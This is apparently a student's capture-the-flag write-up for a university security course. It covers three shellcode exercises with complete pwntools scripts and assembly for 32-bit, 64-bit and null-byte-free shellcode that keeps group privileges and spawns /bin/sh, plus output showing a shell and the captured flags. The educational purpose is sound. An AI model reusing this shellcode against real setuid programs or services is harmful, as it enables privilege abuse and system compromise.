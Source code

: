 # Write-up for Unit2-1

- netID: TXK220008
- Name: Takemaru Kadoi

All the write-ups are supposed to use this import.

```python
from pwn import asm, process, context
```

## 1-shellcode-32

The problem statement is below.

```md
Write a 32-bit shellcode that runs:
    setregid(getegid(), getegid())
    execve("/bin/sh", 0, 0);
and put the shellcode binary (shellcode.bin) into this directory.
```

The solution seems straightforward. Write assembly to execute the command above.

[This site](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) looks good to refer to system calls.

This is the assembly code to execute the required shellcode.

```python
# setregid(getegid(), getegid())
# getegid: 0x32(%eax)
# setregid: 0x47(%eax) (%ebx = gid_t rgid, %ecx = gid_t rgid)
shellcode = asm(
    """
mov     eax, 0x32
int     0x80
mov     ebx, eax
mov     ecx, eax
mov     eax, 0x47
int     0x80
"""
)
# execve("/bin/sh", 0, 0)
# execve: 0x0b(%eax) (%ebx = const char *filename, %ecx = const char *const *argv, %edx = const char *const *envp)
# /bin/sh = 2f62696e2f7368
shellcode += asm(
    """
mov     eax, 0x0b
push    edx
push    0x68732f6e
push    0x69622f2f
mov     ebx, esp
mov     ecx, 0
mov     edx, 0
int     0x80
"""
)
```

This is the code to run the assembly.

```python
io = process(['./1-shellcode-32'])
io.interactive()
```

After running the program, you get the following flag.

```bash
TXK220008@ctf-vm1:~/unit2/1-shellcode-32$ ./solve.py
[+] Starting local process './1-shellcode-32': pid 17060
[*] Switching to interactive mode
Reading shellcode from shellcode.bin
$ cat flag
CS6332{execve_bin_sh}
```

## 2-shellcode-64

The problem statement is below.

```md
Write a 64-bit shellcode that runs:
    setregid(getegid(), getegid())
    execve("/bin/sh", 0, 0);
and put the shellcode binary (shellcode.bin) into this directory.
```

The only difference from `1-shellcode-32` is that this problem uses 64-bit program. Bear it in mind and solve it.

To make the assembly for 64-bit program, use `context.clear(arch="amd64")`.

The program is basically the same, but to use 8 bytes for a string, I am using stack here.

```x86asm
mov     rbx, 0x68732f6e69622f2f
push    0
push    rbx
mov     rdi, rsp
```

```python
context.clear(arch="amd64")

# setregid(getegid(), getegid())
# getegid: 0x6c(%rax)
# setregid: 0x72(%rax) (%rdi = gid_t rgid, %rsi = gid_t rgid)
shellcode = asm(
    """
mov     rax, 0x6c
syscall
mov     rdi, rax
mov     rsi, rax
mov     rax, 0x72
syscall
"""
)
# execve("/bin/sh", 0, 0)
# execve: 0x3b(%rax) (%rdi = const char *filename, %rsi = const char *const *argv, %rdx = const char *const *envp)
# /bin/sh = 2f62696e2f7368
shellcode += asm(
    """
mov     rax, 0x3b
mov     rbx, 0x68732f6e69622f2f
push    0
push    rbx
mov     rdi, rsp
mov     rsi, 0
mov     rdx, 0
syscall
"""
)
with open("shellcode.bin", "wb") as shellcode_file:
    shellcode_file.write(shellcode)
io = process(["./2-shellcode-64"])
io.interactive()
```

After running the program, you get the following flag.

```bash
TXK220008@ctf-vm1:~/unit2/2-shellcode-64$ ./solve2.py
[+] Starting local process './2-shellcode-64': pid 9898
[*] Switching to interactive mode
Reading shellcode from shellcode.bin
$ cat flag
CS6332{exEcvE_b1n_5h
```

## 3-nonzero-shellcode-32

The problem statement is below

```md
Write a 32-bit shellcode that runs:
    setregid(getegid(), getegid())
    execve("/bin/sh", 0, 0);
and put the shellcode binary (shellcode.bin) into this directory.

Your shellcode must not have zero byte.
Check that with make objdump and make print. No 00 or \x00!
```

The problem here is how to write `mov <register> <immediate_value>`

For example, the `mov eax, 0x32` contains `0x00`, i.e., a zero byte.

```bash
>>> asm("mov eax, 0x32")
b'\xb82\x00\x00\x00'
```

We can do it using `xor` and `add`. In the above case, we can write like this.

```bash
>>> asm("xor eax, eax")
b'1\xc0'
>>> asm("add eax, 0x32")
b'\x83\xc02
```

Thus, the overview of the code is like this.

```python
# setregid(getegid(), getegid())
# setregid: 0x47(%eax) (%ebx = gid_t rgid, %ecx = gid_t rgid)
# getegid: 0x32(%eax)
shellcode = asm(
    """
xor     eax, eax
add     eax, 0x32
int     0x80
mov     ebx, eax
mov     ecx, eax
xor     eax, eax
add     eax, 0x47
int     0x80
"""
)
# execve("/bin/sh", 0, 0)
# execve: 0x0b(%eax) (%ebx = const char *filename, %ecx = const char *const *argv, %edx = const char *const *envp)
# /bin/sh = 2f62696e2f7368
shellcode += asm(
    """
xor     eax, eax
add     eax, 0x0b
push    edx
push    0x68732f6e
push    0x69622f2f
mov     ebx, esp
xor     ecx, ecx
xor     edx, edx
int     0x80
"""
)
with open("shellcode.bin", "wb") as shellcode_file:
    shellcode_file.write(shellcode)
io = process(["./3-nonzero-shellcode-32"])
io.interactive()
```
